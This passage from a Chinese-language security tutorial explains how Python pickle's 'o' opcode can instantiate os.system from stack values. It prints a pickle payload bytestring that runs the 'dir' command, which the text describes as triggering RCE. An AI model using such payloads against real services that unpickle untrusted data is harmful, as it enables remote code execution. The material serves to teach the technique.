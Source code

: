 同理o指令也可以，o指令也是可以用于实例化一个类，与它相关的函数为：

[![](assets/1705886719-e86bd103d0b20db19305976c033a03a5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211401-9d0f3afa-b6cc-1.png)

[![](assets/1705886719-8a85bf02e5d7f6271ab347b4f848ae6d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211405-9f36bc5e-b6cc-1.png)

> 这里同样也是控制\_\_instantiate()函数的参数和类名，不同的是这里的类名和参数都由当前栈中弹出，因此可直接将os.system和dir一起压入栈中，经过Pop\_mark()后返回的就是一个system和dir的列表，随后cls经过pop(0)弹出的是先进的system，剩下的栈即args就为dir。进而触发RCE

修改payload为如下：

```plain
b'\x80\x04\x95+\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x8c\x01B\x93)\x81}(cos\nsystem\nX\x03\x00\x00\x00diro0b.'
```

[![](assets/1705886719-65efcfe3b529db778adf912b0fe596cc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211412-a32972e8-b6cc-1.png)

[![](assets/1705886719-164e0efaee612424696c73ad05e14dc0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211416-a5a83ea0-b6cc-1.png)
